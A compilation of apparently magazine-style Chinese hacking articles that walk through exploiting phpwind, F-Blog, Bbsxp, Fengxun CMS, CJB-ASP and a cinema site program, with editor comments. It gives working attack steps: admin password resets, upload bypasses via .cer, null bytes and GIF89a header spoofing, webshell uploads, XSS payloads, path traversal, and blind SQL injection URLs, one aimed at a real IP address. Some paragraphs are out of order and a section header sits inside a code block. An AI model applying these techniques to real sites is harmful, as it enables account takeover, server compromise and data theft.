接下来我们要去论坛看看，我们要看看论坛管理员的账号是什么，把他的密码改掉，我们就可以为所欲为了，哈哈！由于论坛管理员喜欢在板块里面发置顶帖子，很容易发现管理员，如果没有权限看他的资料，就得先注册一个普通账号。这里我们看到 guoyin 这个账号就是管理员，好了，在工具里面填好。论坛地址写：http://www.xxx.com/，密码就 aaa110 了。点一下工具上的 attack 按钮就完成了攻击，成功地把 guoyin 这个管理员的密码改成了 aaa110，如图 2。

接下来看到了吧，用这个账号 guoyin，密码 aaa110 成功登录了。我们废话少说，直奔后台，怎么样？进了吧！如图 3。

下面就是拿 webshell 了，值得一提的是网上流传着 phpwind 后台拿 webshell 三大绝招，貌似都是针对老版本的，针对后来的新版本都是不行的，系统会在一句话木马里面加上 "" "，而且即使没有 "" "，小马也不是正确地写进去了。网上搜索了多遍，似乎都是在讲这种老方法。另外还有一种办法是附件设置那里加上 asa，可以直接上传 asa 文件，把附件目录改成 XXX.asp，利用 windows 的 iis 的

我们点击“帖子”，“附件管理”，就可以看到我们刚传上去的附件了，发现我们的小马被系统自动改名，改成了类似“attachment/Type_scp_asp/36_126941_6e5851a394dc2f7.scp_asp”的样子，如果传一个正常的图片，系统是不是帮忙改后缀呢？思考了一下之后，加上一个 cer 的后缀，接着照样传一个 cer 的小马，发现系统没有改我们的后缀，传上去之后是类似“attachment/Type_cer/35_2_72ee306abc1c0db.cer”的样子。呵呵，成功了！如图 6。

看来 phpwind5.3 的版本对 asp、asa、php 后缀的附件有特别的防范措施，但是考虑不周，没有考虑 cer，可能还有其他类似 aspx 等没有考虑到地方，这里我就不深入研究了，大家有兴趣可以去读读它的代码。

bug 来执行上传去的 asa 木马。这种办法理论上是成立的，要求服务器是 windows 操作系统，至于 linux 系统或者服务器是 apache 还是没有好的办法。下面我们来看看这个网站吧，后台的系统信息显示是 Microsoft-IIS/6.0，如图 4。

试试修改核心设置里面的动态目录，把附件保存目录 attachment 改成 attachment.asp，提示“无法更改图片或附件目录名，请设置其属性为可写模式(777)”，呵呵，此路不通！

不要灰心，做任何事情都要多尝试。我们点击“核心设置”，“发帖与附件”，加上 asp、asa、php，接着到论坛发帖传附件，我们把一个 php 的小马分别改成 asp、asa、php 后缀，发现都可以上传了，如图 5。

接下来做什么就不用说了吧，用 asp 小马传 asp 大马，再传 php 大马。此时此刻，一些都在掌握之中了，phpwind 被攻陷了！在这里我们得庆幸一下该服务器刚好是 NT 系统，而且没有删除 cer 的解析！

好了，有了 wenshell，其他的事情我们不去测试了，phpwind 就是这样被攻破的。目前虽然 phpwind 官方已经发布了补丁，但是依然有大量的站长没有打上补丁，请大家不要对一些网站进行非法的测试。欢迎大家做进一步的研究，努力为网络安全事业尽自己的一份微薄之力！

> (文章中用到的 PHPWIND 利用工具已经收录在光盘中)
编辑点评：最近 PHPWIND 的漏洞确实是闹得比较火，不晓得是不是前段时间其声称自己的程序从来没有出现过安全漏洞的话语激怒了大家，呵呵~
本文是一个简单的利用过程，就其不能利用 Win2003 的漏洞时，作者转而利用 cer 来达到目的，思路还是不错的。

# F-Blog 漏洞挖掘及利用详解

雕牌 / 杜华军 [L.S.T]&[H.S.T]

- 从本文你可以学到：
1. 找漏洞的一些比较有用的思路
2. F-Blog 的漏洞分析

前阵子，CN 的玉米免费送，几个朋友申请了 n 个，我随便选了一个玩玩，于是有了架个 Blog 的欲望，到源码之家选了一套 F-Blog 的程序分析起来。

## 一、分析思路

分析时当然不是解了压就挨个分析，从简单的入手，从容易出问题的文件开刀，比如 conn.asp 的暴库，XXedit.asp 的过滤，XXadmin.asp 的头文件的验证，admin_login.asp 和 user_login.asp 的登陆验证部分，数据库的格式是否 asp 等。这些容易出问题的文件都是以前高手们分析得比较多的文件，我学习积累下来的，是分析一般着手点为上传漏洞 → or 登陆 → reg.asp 注册提权（比较少见了） → udata 语句提权 → seleet 注入等，

这只是本人的个人观点及习惯，大家可以借鉴借鉴……

## 二、分析过程

1.搭建平台 本地搭建和远程搭建，本地搭建建议使用 IIS，NETBOX 功能不齐全；远程搭建只要速度和空间大小比较理想就可以，推荐使用 www.flidc.cn (立即开通)，支持 asp、ftp 管理，300M 空间，本人在网吧只好远程搭建。

2.着手点(上传文件) 先把整站文件传到空间，如图 1。
大致浏览一下界面还行，从上传文件开始分析，文件为 uploadfiles.asp 和 uploadfiles2.asp，uploadfile.asp，代码如下：

```html
<title> 上传文件 </title>
<meta name="Generator" content="EditPlus">
<meta name="Author" content="">
<meta name="Keywords" content="">
<meta name="Description" content="">


```
```asp
formPath=upload.form("filepath") ''获取路径并且来自 form
if right(formPath,1)<>"/" then formPath=formPath&"/" ''截取目录最后一位不等于("/")则在目录后加("/")
iCount=0
for each formName in upload.file ''列出所有上传了的文件
set file=upload.file(formName) ''生成一个文件对象
if file.filesize<100 then
response.write "出错了!" ''大小判断
response.end
end if
fileExt=lcase(right(file.filename,4))

if fileExt<>".gif" and fileExt<>".jpg" and fileExt<>".rar" then
response.write "出错了!" ''后缀判断
response.end
end if

randomize
ranNum=int(90000*rnd)+10000
filename=formPath&year(now)&month(now)&day(now)&ranNum&fileExt ''formPath+随机年月日数字+随机数字+处理过的文件后缀
if file.FileSize>0 then ''如果 FileSize > 0 说明有文件数据
file.SaveAs Server.mappath(FileName) ''保存文件
```

```asp
</head>
<body>
<%
Dim usercookie
usercookie="f-blogcookies"
if session("user_power")="1" or request.cookies(usercookie&"_power")="1" then
%>
...
<input type="hidden" name="act" value="upload">
<input type="hidden" name="filepath" value="upfiles">
<input type="file" name="file1">
<input type="submit" name="Submit" value="上传" onSubmit="javascript:document.form1.submit;" class="buttonface"></td>
</tr>
</form>
<tr>
<td>(注:上传文件支持.gif,.jpg,.rar为后缀的文件,请选择相应文件上传。)</td>
</tr>
</table>
<%
Else
response.write "貌似你没有这个权利使用这个文件!"
end if
%>
```

是否存在上传漏洞的,为了照顾菜鸟,把漏洞形式的过程和原理简单写写，详细的注释在代码中。整段代码，最关键的是以下两句：

- 1. formpath=upload.form("filepath") filepath 未过滤
- 2. filename=formPath&year(now)&month(now)&day(now)&ranNum&fileExt

1 是从变量 filepath 中获得文件的保存路径；2 是用路径变量 filepath 生成数据和判断后的扩展名合成一个新的变量 filename，也就是上传文件的路径和名字。

例：选择 xiaoma.asp 上传，在上传过程中，随文件一起上传的还有一个 hidden 隐藏型的变量，这里值为 filepath，当到了处理文件 uploadfiles2.asp 中，filename 就变成 “upfile/2007040603195137.jpg”，上传成功，xiaoma.asp 被保存到 upfile 文件夹内，文件名也被改了。

稍微懂点 asp 的朋友这里肯定看出了端倪，第 3 行有个文件的验证部分，只要 session("user_power") 和 request.cookies(usercookie&"_power") 中任意一个值等于 “1” 就可以执行下面的操作。都知道 session 值一般情况下是不可以伪造的（虚拟机可以）；而 cookies 值是在本地读取，是可以伪造的，所以只要构造 cookies 为 “f-blogcookies_power=1” 就可以使用这个页面，如图 2。

再看看 uploadfiles2.asp 文件，关键代码如下（删除了部分无用代码）：

```asp
<!--#include file="upload.inc"-->
<html>
<title>文件上传</title>
<body>
<%
dim upload, file, formName, formPath, iCount, filename, fileExt
Dim stype ''定义变量
set upload=new upload_5xSoft ''建立上传对象
mdown=upload.Form("mdown")
```

这些流程看起来无懈可击，但还是给牛人研究出突破方法，突破点就在变量身上。如果将 hidden 型变量 upfiles 值改为 “upfiles/diy.asp\0”，其中 \0 表示二进制的 00，是语句结束标志，所以服务器在读取变量时 “\0” 后的字符自然也就被忽略了，这样一来 upfiles 就变成 “upfiles/diy.asp”，嘿嘿，漏洞出现了！不知道大家注意到这个 uploadfiles2.asp 文件没有，这个文件没经过权限验证，任意用户都可以调用这个文件。

## 三、利用

漏洞不在多，致命就行！有上传漏洞足矣！关于此上传漏洞的利用，我们可以使用老兵或者明小子的上传工具，或者 winsock 抓包保存提交数据，修改后 NC 提交，具体操作看光盘教程，这里就用大家常用的明小子上传吧。打开明小子，选择上传功能，如图3。

## 四、总结

以关键字 Powered by F-BLOG v2.0 可以搜索到很多使用这个系统的 blog，本文简单地给大家介绍了漏洞挖掘中的技巧及过程，大家看后可以尝试着找找漏洞。至于利用过程，由于篇幅原因，说得不是很详细，所以特地做了教程（光盘中）。F_Blog

> > 编辑点评：很不错的一篇文章，从思路到实践都包括了。现在找漏洞找多了，大家也都有这个好习惯了，喜欢自己总结一些套路之类的东西。遵循套路虽然不错，但别被束缚了思维哦。

# Bbsxp 0day 简单分析以及利用

马骏(C.R.S.T)

从本文你可以学到：

- 1、Bbsxp 0day 的分析和发现技巧
- 2、文件头欺骗

先说下，这个 0day 是我无意之间发现的，发现的时候我自己测试过，有 80% 左右的成功率，现在已经隔了 1 个月了，你们能不能利用我不保证。

这个漏洞存在于 bbsxp 的最新版本（官方的不是最新版），漏洞估计比上次某人发的 bbsxp 注入漏洞更加严重，很简单，我这个是上传，而且是杀 access 和 sql 版，直接就可以拿到 webshell，至于拿到 webshell 后你们打算怎么干我不知道。

首先大家看一段代码，这个是我从网上下的一套 bbsxp 最新版，简单分析下三段代码：

```asp
if FileExt="asa" or FileExt="asp" or FileExt="cdx" or FileExt="cer" then error2("对不起，管理员设定本论坛不允许上传 "&FileExt&" 格式的文件")

if Sitesettings("WatermarkOption")="Persits.Jpeg" and FileMIME="image/pjpeg" and UpClass<>"Face" then
    Set Jpeg = Server.CreateObject("Persits.Jpeg")
    Jpeg.Open Server.MapPath(""&SaveFile&"")
```

其中呢，文件保存类型是通过 FileMIME 判断 FileMIME="image/pjpeg"，也就是说上传类型要是图片，然后第一段代码 if FileExt="asa" or FileExt="asp" or FileExt="cdx" or FileExt="cer" then error2("对不起，管理员设定本论坛不允许上传 "&FileExt&" 格式的文件") 的意思是：出错时候检查后缀，如果后缀是 asa 或者 asp 或者 cdx 或者 cer 的时候它就会提示错误，然后 FileExt=文件后缀。

第三段代码的意思是：如果文件中有 getfolder、createfolder 等等特征的话，它就提示错误，错误类型在下边自己看了。

Bssxp 是通过这 3 段代码来过滤上传类型的，这却造成了一个逻辑性的漏洞，聪明的读者可能已经发现了，它过滤的后缀只有 asa、asp、cdx、cer，如果我们传的文件的后缀不是这 4 个呢？嘿嘿，不是这 4 个也不能传，为什么？因为后边还有个 FileMIME="image/pjpeg"。好，我们让文件是 image/pjpeg，具体怎么实现呢？很简单，在我们的马马头部加上 gif89a，也就是文件头欺骗，我们测试下啊，如图 1。

```asp
' 判断用户文件中的危险操作
sStr="getfolder|createfolder|deletefolder|createdirectory|deletedirectory|saveasencode|function|UnEncode|execute|重命名|修改|属性|新建|复制|服务器|下载"
sNoString=split(sStr,"|")
for i=0 to ubound(sNoString)
if instr(sTextAll,sNoString(i)) then
set filedel=server.CreateObject ("Scripting.FileSystemObject")
filedel.deletefile server.mappath(""&SaveFile&"")
response.write "你的 ip 和时间已被纪录，由于你曾多次使用该方法对系统进行非法攻击，我们将会把你的数据向海南省公安部及海口网警报告!"
response.write "<br>"
response.write "时间:"&date()&" "&time()&""
response.write "<br>"
response.write "IP:"&request.servervariables("remote_addr")
&" "
set MyFiletemp=server.CreateObject("Scripting.FileSystemObject")
set wfile=myfiletemp.opentextfile(server.mappath("ypsql.txt"),8)
wfile.writeline date()&" "&time()&" "&request.servervariables("remote_addr")
Response.end
end if
```

成功了，嘿嘿，关于这个漏洞的利用方法什么的，我已经做了一个 DEMO 连同稿件一起发给非安全的编辑了，这个能不能发布就看编辑了。

> > 编辑点评：很有用的一个文件头欺骗技巧，很是实用，大家想想如何把这个推广开去，又有很多的网站会遭遇劫难了。

# 让邪恶继续蔓延
——深入挖掘最新版风讯 4.0sp3 漏洞

落叶纷飞[S.S.T]&[Leaves]

从本文你可以学到：

- 1、风讯 4.0sp3 跨站漏洞
- 2、风讯 4.0sp3 的列目录漏洞

最近挖掘了一些国内比较知名的脚本程序漏洞，今天又开始心痒了，就下载了风讯最新版 4.0sp3 来读下代码，让邪恶继续蔓延！风讯 CMS 程序是国内比较知名的，从 3.0 升级到 4.0 的时候，作者把代码重新审核再重新编译，所以说是比较安全的了。记得 2 月的时候 TTFCT 曾挖掘过风讯 4.0sp2 的漏洞，现在，我就再来挖掘已经补了漏洞的最新版风讯 CMS。

首先，我们看看它的防注入函数 Nosqlhack 是怎么样的吧，代码如下：

```asp
....省略....
f_NoSqlHack_AllStr="'|and|exec|insert|select|delete|up-date|count|master|truncate|declare|and|      |exec|  |in-sert|  |select|delete|update|count|  |master|truncate|declare|char|mid|chr("
....省略....
```

它怎么这样过滤的呢？我也觉得奇怪，可能是让程序报错吧，这个防注程序比较好绕过。再来看看评论页 ShowReviewList.asp 文件的漏洞代码：

```asp
....省略....
'----- 评论入库
If Request.Form("Action") = "AddNew" Then
ReName = NoSqlHack(Trim(Request.Form("UserNumber")))
RePwds = Trim(Request.Form("password"))
ReNoNameTF = Request.Form("noname")
ReTitle = NoSqlHack(Trim(Request.Form("title")))
ReContent = NoSqlHack(Trim(Request.Form("content")))
ReTypes = ReviewTypes
ReID = ID
If ReNoNameTF = "" Then
ReNoNameTF = "0"
Else
ReNoNameTF = ReNoNameTF
End If

....省略....
```

图 1 跨站成功

title 和 content 变量经过 Nosqlhack 函数过滤后就进库了，我们可以直接跨站，在标题和内容里都填入跨站代码“<script>alert("leaves")</script>”，提交后跨站代码就运行了，如图 1。

来看看第二个漏洞，看 message_write.asp 文件的漏洞代码：

```asp
....省略....
If Request.Form("Action") = "Save" then
Dim p_M_ReadUserName,p_M_title,p_M_Content
p_M_ReadUserName = NoSqlHack(Request.Form("M_ReadUserNumber"))
p_M_title = NoSqlHack(Request.Form("Title"))
p_M_Content = NoHtmlHackInput(Request.Form("Content"))
If p_M_ReadUserName="" Or p_M_title="" Or
```

```asp
p_M_Content="" Then
strShowErr = "<li>请填写完整</li><li>短信标题、收件人、信息内容不能为空</li>"
Response.Redirect("lib/Error.asp?ErrCodes="&Server.URLEncode(strShowErr)&"&ErrorUrl=!!")
Response.end
End If
....省略....
```

仅经过了 NoSqlHack 函数过滤和判断不为空就进库了。好，开始利用，我们先注册一个账号 asdasdaa，然后发送短消息，在短消息的标题中填入跨站代码“<script>alert("nohack")</script>”，发送给别人后别人就中招了，如图 2。

图 2 短消息跨站

我们来看一个危害比较大的漏洞，漏洞存在于 user/commpages/SelectPic.asp 文件里面，漏洞代码如下：

```asp
....省略....
esponse.Buffer = True
Response.Expires = -1
Response.ExpiresAbsolute = Now() - 1
Response.Expires = 0
Response.CacheControl = "no-cache"
Dim TypeObj,RsTypeObj,LableSql,RsLableObj
Dim LimitUpFileFlag,CurrPath,ShowVirtualPath
User_GetParm
LimitUpFileFlag = Request("LimitUpFileFlag")
CurrPath = Request("CurrPath")
ShowVirtualPath = Request("ShowVirtualPath")
Session("TempPicDir")=CurrPath
If SysRootDir<>"" then CurrPath="/" & SysRootDir & CurrPath else CurrPath=CurrPath
....省略....
```

呵呵，看出问题了吗？我们提交变量 CurrPath 根本没做任何过滤，我们先注册一个用户，在“会员首页”中点击“我的专栏”，再在“我的专栏”里面选择“相册管理”，如图 3。

图 3 相册管理

看到 /userfiles/ 后面那串字符了吗？我们提交“http://localhost/User/CommPages/SelectPic.asp?CurrPath=/UserFiles/那串字符&f_UserNumber=那串字符”，我的用户的那串字符是“221354CK24J”，所以我提交“http://localhost/User/CommPages/SelectPic.asp?CurrPath=/UserFiles/221354CK24J&f_UserNumber=221354CK24J”，如图 4。

好了，现在我们提交“http://localhost/User/CommPages/SelectPic.asp?CurrPath=/UserFiles/../../../../foosun_data&f_UserNumber=221354CK24J”，要注意“CurrPath=/UserFiles/"

../../../../foosun_data” 这句是没有错的，你不要以为我写错了。好了，看看我们看到了什么？如图 5。

呵呵，数据库都出来了，如果服务器是 win2003 的话，我们还可以创建一个 admin.asp 的文件夹，然后上传一个改了后缀为 gif 的 webshell 上去就 ok 了。不过要注意一点，创建的 admin.asp 一定要在自己的文件夹里面，不要创建了之后是上传不了文件进去的，而且删也删不了！

风讯 CMS 程序还有几个漏洞，其中有一个还可以跨到后台的，这里我不说，算是给大家一个作业吧！漏洞利用动画我也已经做好了，大家可以去 Nohack 的光盘上找。好了，风讯 CMS 程序的漏洞就到这里了，如果大家有什么问题可以到 Nohack 论坛来

找我！我的 ID 是“臭巴子”！

> 编辑点评：作者是个 15 岁的小孩子，从文章中可以看到思维很是严谨，分析漏洞有板有眼的，丝毫不逊色其他江湖老手，试想我 15 岁的时候，貌似还不晓得电脑长什么样子呢，希望有条件的读者，赶紧学习，别把大好时光浪费在其他无意义的事情上。

# 台湾 CJB-ASP 程序漏洞浅析

花非花[L.S.T]&&[I.S.T]

从本文你可以学到：

- 1、CJB-ASP 漏洞分析
- 2、漏洞利用

### 一. 简介

CJB-ASP 作为一款台湾团队开发的 BBS，受众多台湾网管欢迎。这个欢迎程度大概有多大呢，百度一下你就知道 ^_^，到百度输入 POWERED BY CJB-ASP，返回的结果是多少呢？如图 1 所示。

看到没有呢，3960 篇呢，当然还有其他的关键字啦，大家各自发挥了。在图 1 还能看到 Kane's 发现了 CJB-ASP 论坛的 XSS 漏洞(很遗憾的是，我在 Kane's 兄的 BLOG 上一直找不到关于他发现的 CJB-ASP 的解析)。

### 二. 漏洞浅析

### （一）暴库漏洞

以前以为只有咱们大陆才有那么多的暴库漏洞，结果现在发现，原来这个暴库漏洞在大陆之外也存在的，呵呵，以前都有介绍过了，由于数据库的连接文件 conn.asp 没有容错语句，导致可以用%5C 暴出数据库的漏洞。这套程序的默认数据库地址是：/db/forum.mdb(貌似很多台湾站点有时没设默认数据库地址的)，找一个目标，然后提交 http://target/forum%5CDetail.asp?tid=64&TitleID=5697，返回如图 2 所示。

乱码看不懂，不过 E 文咱们就不会看不懂了，还是默认数据库地址呢。提交:http://target/db/forum.mdb，没有做防下载，呵呵，如图 3。

### （二）任意用户修改密码漏洞

来看一下 edituseraction.asp 文件，这是一个用来处理用户修改资料的文件，下面是部分代码：

```asp
<%username = Request("username")
Password1 = Request("Password1")
Password2 = Request("Password2")
email = Request("email")
birthday= Request("birthday")
homepage= Request("homepage")
comefrom= Request("comefrom")
msnm=Request("msnm")
yim=Request("yim")
pic= Request("pic")
face_url= Request("face_url")
level= Request("level")
memo1=Request("memo1")
timezone=Request("timezone")
```

‘花注释:这里获取用户POST过来的数据，如用户名，密码等等信息，并分别保存到各自对应的变量中。

```asp
... 省略 N 多代码 ...
<%Else
' 花注释:执行 SQL 查询.
set rsopen = Server.CreateObject("ADODB.Recordset")
SQL = "Select * From id Where user='" & username & "'"
rsopen.Open SQL, conn,1,3
```

```
asp
' 下面把查询结果保存着，POST 过来的数据保存到各个记录当中
rsopen("email")=email
rsopen("comefrom")=comefrom
rsopen("msnm")=msnm
rsopen("yim")=yim
rsopen("password")=Password1
rsopen("birthday")=birthday
rsopen("pic")=pic
rsopen("memo1")=memo1
rsopen("timezone")=timezone
if homepage=empty then
rsopen("homepage")=""
else
rsopen("homepage")=homepage
end if
rsopen("face_url")=face_url
if not level=empty then
rsopen("level")=level
end if
' 直接更新数据
rsopen.Update


```

看完代码和注释，大家应该能发现一个比较严重的问题了吧，修改数据的时候并没有任何过滤，更严重的是没有任何权限的判断。也就是说，任意用户只要愿意，就可以更改任意权限比他更高的用户的资料了，比如版主。下面演示一下修改版主的密码(小朋友可别乱学啊)，先到论坛首页的“会员”链接处打开会员列表，选择我们要更改的用户，比如我找到一个叫 XX 的版主，记下他的名字，如图 4 所示。
再打开“资料”链接，返回“修改个人资料”界面，如图 5 所示。把这个页面保存一下，然后以 TXT 方式打开我们保存的页面(我保存为 test.htm)，然后查找 username，如图 6。
把所有 huahua 都要换成要修改密码的账户名，然后再搜寻 action，可以搜到这么一段代码：
```
html
<FORM name=form2 action=edituseraction.asp method=post>
```

然后修改这段代码为：

```
html
<FORM name=form2 action=http://www.目标.com/forum/edituseraction.asp method=post>


```

保存一下，然后打开 test.htm，打开后的修改界面和原来的差不多，输入你想要的密码之后，提交一下，返回如图 7 所示。
修改 XX 资料成功了，用此账号登陆一下，返回如图 8 所示，到此，我们的测试过程结束了。
## 三. 注入漏洞

这套程序貌似有很多注入漏洞啊，看了很多文件都存在这样的漏洞，下面是 pm_detail.asp 文件的部分漏洞代码：

```
asp
<%pid=Request("id")
Set ws=Server.CreateObject("ADODB.Recordset")
SQL="SELECT * FROM u2u WHERE id=" & pid & ""
ws.Open SQL,conn,1,3
%>


```

首先通过内建对象 request 获取用户提交上来的数据 ID 的值，保存在变量 pid 中，然后把 pid 参与 SQL 查询，而获取数据的过程并没有经过任何过滤，所以一个典型的注入漏洞就产生了，用 order by 判断参与查询的字段数，提交 http://140.137.11.241/forum/pm_detail.asp?id=1603 order by 10 报错，最后判断得到结果为 7。再提交：http://target/forum/pm_detail.asp?id=1603%20and%201=2%20union%20select%201,2,3,4,5,6,7%20from%20id，返回结果如图 9 所示。
郁闷了，无法更新，资料库或物件是唯读的。既然 UNION 不行，我就换别的办法吧，提交：

```
http://140.137.11.241/forum/pm_detail.asp?id=1603%20and%20(select%20count(*)%20from%20id%20where%20id=300%20and%20asc(mid(user,1,1))>90)>0


```

返回正常，如图 10 所示。

说明我们构造的语句是对的，接下来的猜解是很累人的，所以这样的体力活就留给大家吧，呵呵，貌似这个版主还是个 MM。

## 四. 跨站

由于有人已经研究出跨站了，所以我这里就简单介绍一下，随便去发个帖子，`<script>alert('有漏洞,请修补')</script>`，
返回的结果如图 11 所示。
发表主题和主题内容都能跨站，然后，在前面介绍的任意用户修改密码漏洞中，我们分析的代码也发现了，修改用户的资料也未经过过滤。那么，我们再来测试一下，在修改资料处进行跨站，如图 12 所示。

在“来自”文本框中输入：`1st<script>alert('1ST-test')</script>`，然后再次访问我们刚发表的帖子，跨了两次和图 11 一样的，然后又多跨了一次，如图 13 所示。

## 五. 结尾

这套程序可以说是漏洞百出，估计比动网出现的漏洞要多得多了，不信大家慢慢去挖掘。

> 编辑点评：不晓得现在是不是流行比谁家的网站系统漏洞多，怎么一找就是从暴库到注射系列漏洞全部包含呢，这样的程序，叫人怎么敢用呢。另外，漏洞不是中国专有的哈，老外的程序也是漏洞百出，大家有时间也可以去找找老外的漏子哈。

# 万豪影院致命伤

月无痕[LST]

- 从本文你可以学到：
- ASP 漏洞分析
- 分析漏洞中的一些技巧

假期过得好快啊~一转眼就过去了，刚来学校就有同学说他想开一个网上影院，还给了我一套万豪影院的程序，说是叫我看看有没有什么安全隐患。同学的要求很难拒绝啊~于是就有了下面这篇文章！

# 一、初见数据库

一拿到程序第一感觉就是挺豪华，还是让我们来看一下安全性吧！先找到数据库连接文件 conn.asp（为什么？因为个人习惯！嘿嘿），代码如下：

```
asp
<%	'注意这个 conn.asp 在 user 文件夹下!
dim conn
dim connstr
dim db
db="../911/#skyuc#com#tk007#com#2005#4#00.asp"
Set conn = Server.CreateObject("ADODB.Connection")
connstr="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(""&db&"")
conn.Open connstr
%>


```

大家看看，很明显的没有加入内容错误句，那么我们就来测试下暴库吧！结果如图 1，成功暴出！
# 二、惊现注入

因为最近比较犯懒，所以没有直接看代码，而是进行了黑箱测试。随便找了个连接在后面加上了"'"和 1=1、1=2，结果都是直接转到了一个错误页面，看来是做了限制。相关的页面是 movie.asp，代码如下：

```
asp
<%
articleid=request("id")
' 月无痕注释利用 request 将变量 id 的值带入到 articleid
if isnumeric(articleid)=false then
response.redirect "error.htm"
' 利用 isnumeric 函数判断 articleid 是不是数字型，如果值等于假就转到error.htm
end if
代码略……


```
图2 报错

难怪呢！原来是用了 isnumeric 函数 (IsNumeric 函数的作用是用来判断变量是不是数字型)，这段代码的存在就是导致我们注射失败的罪魁祸首，思路也随着这段代码断了。

## 三、再探注入

那是不是这套代码就不能注射了呢? 我想起了花非花对影院系统的评价——漏洞百出！没错，这个点不行不代表其他点不行！那么我们再来看看 look.asp 这个文件。先解释下，我们点击影片下面的集数，随便选一个观看电影，这时候出来了一个登陆框页面，没错，它就是这套系统的致命伤！我们在它的地址后面加一个“'”，如图 2。

报错了！看来这里有戏，可以注射。我们去看看它的代码 look.asp:

```
javascript
<%
bb1=request("id1")
bb2=request("id2")
%>
<script LANGUAGE="Javascript">
<!--
var Words="%3Cframeset%20border%3D%220%22%20frameborder%3D%220%22%20framespacing%3D%220%22%20rows%3D%22*%22%3E%0D%0A%20%20%20%3Cnoframes%3E%3E%0D%0A%20%20%20%3Cframe%20frameborder%3D%22NO%22%20marginwidth%3D%220%22%20name%3D%22upperframe%22%20noresize%20src%3D%22ud2t3d86.asp%3Ffilm1%3D%3C%25=bb1%25%3E%26film2%3D%3C%25=bb2%25%3E%22%20scrolling%3D%22auto%22%3E%0D%0A%3C/frameset%3E"
function SetNewWords()
{
var NewWords;
NewWords = unescape(Words);
document.write(NewWords);
}
SetNewWords();
// -->
</script>
代码略……
```

许多朋友看到这里就迷茫了，没有 sql 查询啊，那么怎么注射？别急，大家看，中间有段加密的地方很可疑，我们来还原它一下！（当时我猛的一下也没反应过来，正好和浪迹天大哥聊天，天哥说解密下看，感谢天哥！）

```
html
"<frameset border="0" frameborder="0" framespacing="0" rows="*">
   <noframes>
   </noframes>
   <frame frameborder="NO" marginwidth="0" name="upperframe" noresize src="ud2t3d86.asp?film1=<b126film2=<b222 scrolling="auto">
</frameset>"
```

大家看，里面是不是包含了一个名为 ud2t3d86.asp 的文件? (其实细心的朋友应该发现，不用解密也可以发现这个文件) 那么我们去看下这个文件的内容吧！

看 ud2t3d86.asp 的代码如下：

```
asp
代码略……
articleid=request("film2")
urlid=request("film1") ' 直接的带入了变量没过滤
if articleid="" or urlid="" then
response.write "非法操作"
response.end
end if%>
<%
set rs=server.createobject("adodb.recordset")
sql="select * from learning where articleid="&articleid
' 将没过滤的变量直接带入查询语句，注射产生了！
rs.open sql,conn,1,1
serverip=rs("serverip")
set rsb=server.createobject("adodb.recordset")
rsb.open "select * from tolook",conn,1,3
%>
代码略……

## PHPwind5.3 后台拿 webshell 方法 char


```

将这段代码与上面 look.asp 中的代码结合一下不难发现问题了，找到了问题我们去实战下！

## 四、实战阶段

猜了半天没找到表名，最后只好跑去数据库看了下。表名：fdg85675fd。作者太可恶了！先输入：http://localhost/wh/look.asp?id1=875&id2=262%20and%20(select%20count(*)%20from%20fdg85675fd)>0，返回正常，证明有 fdg85675fd 这个表，如图 3。

再输入：http://localhost/wh/look.asp?id1=875&id2=262%20and%20(select%20count(pwd)%20from%20fdg85675fd)>0

http://localhost/wh/look.asp?id1=875&id2=262%20and%20(select%20count(name)%20from%20fdg85675fd)>0 返回正常，存在 pwd、name 字段。如图 4、图 5。

下面就是正常的猜解了，我就以 name 来作个大概演示。先猜用户名长度，输入：

http://localhost/wh/look.asp?id1=875&id2=262%20and%20(select%20top%201%20len(name)%20from%20fdg85675fd)=5，返回正常，证明管理员长度是 5，如图 6。

接着猜用户名的第一位 asc 的值，输入：`http://localhost/wh/look.asp?id1=875&id2=262%20and%20(select%20top%201%20asc(mid(name,1,1))%20from%20fdg85675fd)=97`，返回正常，说明第一个字母的 asc 是 97，如图 7。

接着依次猜出的 asc 值为 97 100 109 105 110，用牛族字符转换一下得出的是 admin，证明管理员用户名是 admin。猜密码和用户名是一样的，我就不浪费地方了，要不有骗字数之嫌！

## 五、快速拿 shell

至于拿 shell，我在添加电影的地方找了个图片上传的地方，上传了一个后缀为 jpg 的 asp 马，如图 8。

然后在数据库备份那里填好路径开始备份！如图 9、10，显示成功！

那么我们快去访问下可爱的 shell 吧！如图 11。

## 六、战后总结

不能不说这款代码的作者很奇怪也很 BT！有的地方防护得很好，有的地方却垃圾得不行！当然这款代码的漏洞肯定不止这些，我测试的版本是 v3.5 的，大家有兴趣的话可以找来试着找找其他的漏洞。个人觉得这款代码很适合新手学习。最后，感谢大家观看我的文章(顺便感谢下 joli 的 asp 马，我原本上就那一匹！)我的 ID 是月无痕，欢迎大家和我交流！

**编辑点评：**文章都是很基本的东西，只是其中涉及到一个解密的地方，开始看上去貌似不存在漏洞的，但是解密一看，就真相大白了，所以大家以后分析漏洞的时候要多一点心眼，从细微的地方，往往能发现致命的伤。
- 从本文你可以学到：
1、PHPwind5.3 后台拿 webshell 方法
2、WIN2003 漏洞的综合利用

最近 PHPWind 这款国内出名的 PHP 论坛暴出最新漏洞，如果没打补丁，那么，可以说 phpwind5.x 全部通杀，于是乎大家又把网络安全闹得沸沸扬扬，相信很多人又小抓了一把鸡。有这么好的事，怎么说也得照顾一下和我一样的菜鸟，网上只有说如何拿到后台权限，可都没说通过后台拿下可爱的 WebShell，找了半天资料也只有 5.3 以前的版本通过后台拿 webshell，但是对于现在最新的 5.3 还是没有什么对策，同样，通过 5.3 以前的版本拿 WebShell 的办法，经测试在 5.3 里面很显然已经是不行了。所以在这里很高兴能够和大家一起分享 PHPwind5.3 后台如何拿 webshell 的方法。

关于如何拿到后台的管理员密码，为了节省篇幅，我不说了，可以在我们的光盘里看到演示教程。现在正式开始，我们登陆后台，首先找到“核心设置”，再找到里面的“动态目录”，这里我们可以看到有 2 个可供我们修改，如图 1。
在 IIS 中当作 asp 来执行，于是，我们可以上传如 .txt、.jpg、.gif 这种系统不限制上传的文件进行上传，从而通过这个漏洞，转个角度执行我们的 ASP。好了，看完小知识，我们大致应该清楚以下的步骤了，我们先来修改一下上传附件后目录的名字为 .asp 样式的，如图 2。

现在我们回到前台，选择任意版块发布任意帖子，最后在上传附件那里上传 txt 文档，其内容为 ASP 木马。上传肯定是成功的，可我们如何拿到它的真实地址？跟我来，在后台选择“帖子”——“附件管理”，看到了吗？我们刚才传的东西就在里面，如图 3。
